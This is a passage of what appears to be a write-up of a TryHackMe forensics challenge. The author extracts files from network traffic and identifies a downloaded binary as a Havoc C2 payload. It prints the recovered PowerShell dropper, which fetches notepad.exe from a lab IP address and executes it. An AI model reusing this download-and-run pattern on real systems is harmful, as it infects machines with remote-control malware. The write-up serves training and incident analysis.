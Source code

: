 ![Desktop View](/assets/img/2025-07-08-TryHackMe-Mayhem/photo1.webp){: width="972" height="589" }

I used wireshark to get these files.

Here is the install.ps1 powershell script:

```ps1
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;$65lmAtnzW8 = New-Object System.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);Start-Process -Filepath $LA4rJgSPpx
```

Probably notepad.exe is virus lets send it to virustotal.

[VirusTotal - File - 99784f28e4e95f044d97e402bbf58f369c7c37f49dc5bf48e6b2e706181db3b7](https://www.virustotal.com/gui/file/99784f28e4e95f044d97e402bbf58f369c7c37f49dc5bf48e6b2e706181db3b7)
And yes it is. It is generated by Havoc C2 framework.

[HavocFramework/Havoc: The Havoc Framework](https://github.com/HavocFramework/Havoc)

lets correct this by yourself by looking at the strings of the exe.

```bash
strings notepad.exec
```

```text
!This program cannot be run in DOS mode.
.text
`.data
.rdata
@.edata
@.idata
.reloc
ATE1
 [^_]A\
AWAVAUATL
H9t$(
T$0I
)D$0
T$0H
L$;A
```